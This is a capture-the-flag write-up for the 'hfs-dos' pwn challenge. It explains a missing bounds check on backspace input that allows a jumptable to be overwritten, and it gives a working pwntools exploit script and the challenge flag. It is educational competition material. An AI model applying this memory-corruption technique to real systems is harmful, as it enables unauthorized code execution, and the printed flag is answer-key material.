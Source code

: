 # hfs-dos

**Category**: pwn
**Authors**: @viktoredstrom, @n00byedge

---

We're prompted with a very basic shell with the following commands implemented: ping, pong, vers, myid and exit (every command besides the later just printing out dummy strings). Which function should be executed given some input is implemented as a jumptable:

![jumptable](img/jmp.png?raw=true)

The program stores input one character at the time inside a buffer, and if four characters are read the read pointer is reset to its original position. However we're also able to "delete" characters in our input i.e move said pointer backwards, and there's no lower-bound check. So we're able to overwrite anything which happens to be before our input buffer.

![jumptable](img/no-check.png?raw=true)
![jumptable](img/buf.png?raw=true)

(inputBuf is initially set to 0x39C)

From here on:
1. Turn "FLAG1" into "FLAG2"
2. Overwrite some function pointer inside the jumptable with the program entry (0x174).
3. Execute command

## Solution

```python
from pwn import *
sock = remote('hfs-os-01.play.midnightsunctf.se', 31337)
sock.readuntil('[HFS_MBR]>') ; sock.send('sojupwner\r')
sock.readuntil('[HFS-DOS]>') ; sock.send('\x7f' * 11 + '\x74\r')
sock.readuntil('[HFS-DOS]>') ; sock.send('\x7f' * 3 + '2\r')
sock.readuntil('[HFS-DOS]>') ; sock.send('pong')
sock.interactive()
```

It's almost comical how small the solution is, `midnight{th4t_was_n0t_4_buG_1t_is_a_fEatuR3}`
